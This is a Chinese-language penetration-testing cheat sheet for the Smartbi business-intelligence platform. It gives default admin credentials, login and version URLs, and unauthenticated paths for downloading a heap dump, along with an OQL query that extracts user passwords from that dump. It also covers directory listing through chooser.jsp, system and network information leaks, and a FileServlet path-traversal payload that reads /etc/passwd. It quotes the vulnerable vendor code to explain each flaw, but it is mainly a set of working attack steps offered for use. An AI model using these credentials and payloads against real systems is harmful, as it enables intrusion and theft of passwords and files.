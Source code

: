 # Smartbi

**默认用户名密码**
```
admin admin
```

**版本查看**
```
http://ip/vision/version.txt
http://ip/vision/packageinfo.txt
```

**登陆地址**
```
http://ip/vision/mobileportal.jsp // 移动驾驶舱
http://ip/vision/mobileX/login // 移动驾驶舱
http://ip/vision/index.jsp
```

## 漏洞

|漏洞名称|访问路径|
|:---:|:---:|
|heapdump抓取密码|`/vision/monitor/heapdump.jsp`|
|目录遍历|`/vision/chooser.jsp?key=&root=%2F`|
|信息泄漏|`/vision/monitor/sysprops.jsp`|

### heapdump抓取密码
访问如下地址，点击下载，即可得到`HeapDump.bin`
```
https://ip/vision/monitor/heapdump.jsp
```
利用`Eclipse Memory Analyze`工具来分析`HeapDump.bin`，工具下载地址：https://www.eclipse.org/mat/previousReleases.php

工具中有个图标名为`OQL`的功能（Open Object Query Language studio to execute statements），输入如下查询语句，可以得到用户的密码
```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
```

`heapdump.jsp`核心代码如下，会将heapDump中的内容打包到HeapDump.bin文件中
```java
if(request.getParameter("dumpbin") != null) {
	if(log.canHeapDump()) {
		java.util.zip.ZipOutputStream zip = new java.util.zip.ZipOutputStream(response.getOutputStream());
		java.util.zip.ZipEntry entry = new java.util.zip.ZipEntry("HeapDump.bin");
		zip.putNextEntry(entry);
		log.heapDump(zip , false, false); // 生成heapdump
		zip.closeEntry();
		zip.flush();
		zip.close();
	}...
}
```
一般堆内存查询的主要思路是用JDK自带的tools.jar类库中`com.sun.tools.attach.VirtualMachine`类或其实现类。该类可以获取JVM相关控制权限。获取要监控的JVM的进程号，利用`VirtualMachine.attach()`方法，获取VirtualMachine的实例对象，然后通过实例对象调用`VirtualMachine.heapHisto()`方法，参数为`–all`, 可获到JVM的堆内存信息。如果想要打包出来则是调用`VirtualMachine.dumpHeap()`方法。此漏洞heapDump的实现代码如下
```java
HotSpotVirtualMachine machine = (HotSpotVirtualMachine)((AttachProvider)provider).attachVirtualMachine(pid);
InputStream is = machine.dumpHeap(new Object[]{tmp.getCanonicalPath(), all ? "-all" : "-live"});
ByteArrayOutputStream baos = new ByteArrayOutputStream();
byte[] buff = new byte[1024];

int readed;
while((readed = is.read(buff)) > 0) {
    baos.write(buff, 0, readed);
}

is.close();
```

### 目录遍历
访问地址如下，可以看到操作系统根目录下的文件夹列出在屏幕上
```
/vision/chooser.jsp?key=&root=%2F
```
chooser.jsp的核心如下，其中`new File()`的用法需要注意，它不仅可以创建文件名还可以创建目录，所以如果root传入的是`.`代表当前目录或是`/`根目录，它的exists()判断都是为真的。
```jsp
<%
	String key = request.getParameter("key");
	String path = request.getParameter("root");
	String pathValue = (path == null || "null".equals(path)) ? null : path;
	if (pathValue != null && !new File(pathValue).exists()) {
		pathValue = null;
		path = "";
	}
	ArrayList folders = getFolderNames(pathValue,key);
%>
```
getFolderNames方法如下，根据传入的路径列出目录下的文件夹，或者直接列出操作系统根目录下的文件夹
```java
public static ArrayList getFolderNames(String parentPath, String key) {
    ArrayList result = new ArrayList();
    File[] fs = null;
    if (parentPath == null)
        fs = File.listRoots();
    else {
        File f = new File(parentPath); 
        if (f.exists())
            fs = f.listFiles();
        else
            fs = File.listRoots();
    }
    if (fs != null) {
        File f = null;
        for (int i = 0; i < fs.length; i++) {
            f = fs[i];
            if (f.isDirectory() || key.equalsIgnoreCase("DATAFILE")) {
                String path = f.getPath();
                if (path.indexOf("System Volume Information") == -1)
                    result.add(path.replaceAll("\\\\", "/"));
            }
        }
    }
    return result;
}
```
### 信息泄漏
访问地址如下，可以看到包含了操作系统、Java、用户路径的相关信息
```
/vision/monitor/sysprops.jsp -> 操作系统参数
/vision/monitor/hardwareinfo.jsp -> 局域网内的ip地址
/vision/monitor/getclassurl.jsp?classname=smartbi.freequery.expression.ast.TextNode -> 包含的第三方库
```
sysprops.jsp的核心代码，主要是`System.getProperties();`获取了系统参数
```
Properties prop = System.getProperties();
List list = new ArrayList(prop.keySet());
Collections.sort(list);
for(int i = 0; i < list.size(); i++) {
	String key = String.valueOf(list.get(i));
	String value = String.valueOf(prop.getProperty(key));
	out.println("<tr><td>" + key + "</td><td>" + value + "</td></tr>");
}
```
### 其他漏洞
在v85以下还可能存在任意文件下载漏洞，payload如下
```
vision/FileServlet?ftpType=out&path=upload/../../../../../../../../../../etc/passwd&name=%E4%B8%AD%E5%9B%BD%E7%9F%B3%E6%B2%B9%E5%90%89%E6%9E%97%E7%99%BD%E5%9F%8E%E9%94%80%E5%94%AE%E5%88%86%E5%85%AC%E5%8F%B8XX%E5%8A%A0%E6%B2%B9%E7%AB%99%E9%98%B2%E9%9B%B7%E5%AE%89%E5%85%A8%E5%BA%94%E6%80%A5%E9%A2%84%E6%A1%88.docx
```
